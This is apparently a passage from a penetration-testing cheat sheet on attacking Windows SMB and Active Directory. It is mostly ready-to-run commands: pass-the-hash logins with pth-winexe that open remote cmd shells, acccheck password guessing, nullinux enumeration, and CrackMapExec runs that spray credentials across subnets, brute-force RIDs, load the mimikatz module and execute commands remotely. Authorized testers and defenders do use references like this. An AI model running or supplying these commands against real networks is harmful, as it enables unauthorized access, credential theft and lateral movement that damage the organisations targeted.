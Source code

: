 ```
- RID cycling (When RestrictAnonymous is set to 1 on Windows 2000)
- User listing (When RestrictAnonymous is set to 0 on Windows 2000)
- Listing of group membership information
- Share enumeration
- Detecting if the host is in a workgroup or a domain
- Identifying the remote operating system
- Password policy retrieval
```

> - Ref: https://hackercool.com/2016/07/smb-enumeration-with-kali-linux-enum4linuxacccheck-smbmap/

### pth-winexe

```
pth-winexe -U administrator%WIN20082017 //192.168.1.23 cmd # using a plaintext password
pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # domain user
pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash + empty lm hash
# or
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U Administrator% //192.168.1.23 cmd
```



### nullinux

https://github.com/m8r0wn/nullinux
```
python3 nullinux.py -users -quick DC1.Domain.net
python3 nullinux.py -all 192.168.0.0-5
python3 nullinux.py -shares -U 'Domain\User' -P 'Password1' 10.0.0.1,10.0.0.5
```

### acccheck

- Password attacks

```
acccheck -v -t $ip -u <user> -P <password_file>
```

### mblookup

- NetBIOS over TCP/IP client used to lookup NetBIOS names

### CrackMapExec
Automate assessing the security of large Active Directory networks
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH

crackmapexec -u 'guest' -p '' --shares 192.168.1.23
crackmapexec -u 'guest' -p '' --rid-brute 4000 192.168.1.23
crackmapexec -u 'guest' -p '' --users 192.168.1.23
crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami 192.168.1.23
```
